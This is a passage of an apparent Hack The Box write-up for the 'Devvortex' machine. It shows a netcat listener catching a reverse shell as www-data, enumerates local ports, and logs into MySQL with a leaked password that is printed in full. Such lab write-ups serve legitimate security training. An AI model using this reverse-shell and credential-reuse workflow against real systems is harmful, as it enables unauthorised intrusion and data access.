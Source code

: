 Now the goal is to get a shell.

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80       
        inet 10.10.14.27  netmask 255.255.254.0  destination 10.10.14.27
        inet6 dead:beef:2::1019  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::1e74:904e:f727:5f2a  prefixlen 64  scopeid 0x20<link>
listening on [any] 80 ...

connect to [10.10.14.27] from (UNKNOWN) [10.10.11.242] 56246
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ hostname
devvortex
```

Listening only on localhost is the MySQL database. The login credentials are the ones inviduced through the information leak.

```shell
www-data@devvortex:~/dev.devvortex.htb$ ss -ntlp
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process                                                                         
LISTEN    0         4096         127.0.0.53%lo:53               0.0.0.0:*                                                                                       
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*                                                                                       
LISTEN    0         70               127.0.0.1:33060            0.0.0.0:*                                                                                       
LISTEN    0         151              127.0.0.1:3306             0.0.0.0:*                                                                                       
LISTEN    0         511                0.0.0.0:80               0.0.0.0:*        users:(("nginx",pid=883,fd=8),("nginx",pid=882,fd=8))                          
LISTEN    0         128                   [::]:22                  [::]:*                                                                                       
LISTEN    0         511                   [::]:80                  [::]:*        users:(("nginx",pid=883,fd=9),("nginx",pid=882,fd=9))
```

```shell
www-data@devvortex:~/dev.devvortex.htb$ mysql -h 127.0.0.1 -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 6153
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```
